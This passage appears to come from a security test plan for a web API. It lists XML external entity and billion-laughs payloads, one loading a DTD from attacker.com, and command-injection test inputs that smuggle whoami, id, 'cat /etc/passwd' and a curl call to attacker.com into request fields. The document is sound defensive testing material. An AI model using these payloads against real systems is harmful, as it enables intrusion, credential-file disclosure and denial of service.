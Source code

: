 ```xml
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://attacker.com/xxe.dtd">
%remote;
]>

# 3. Billion laughs attack
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!-- ... continue pattern ... -->
]>
<lolz>&lol9;</lolz>
```

**Expected Result**:
- External entities disabled
- DTD processing disabled
- Entity expansion limits
- No file disclosure

### Test Case: INPUT-003 - Command Injection

**Objective**: Test for command injection vulnerabilities

**Test Steps**:
```bash
# 1. Test in export filename
POST /api/v1/reports/export
{
  "format": "pdf",
  "filename": "report_$(whoami).pdf"
}

# 2. Test in image processing
POST /api/v1/images/resize
{
  "url": "https://example.com/image.jpg; cat /etc/passwd",
  "width": 100,
  "height": 100
}

# 3. Test in backup operations
POST /api/v1/admin/backup
{
  "destination": "/backup/$(date +%Y%m%d).tar.gz; curl http://attacker.com/notify"
}

# 4. Test in log viewing
GET /api/v1/admin/logs?file=app.log;id
```
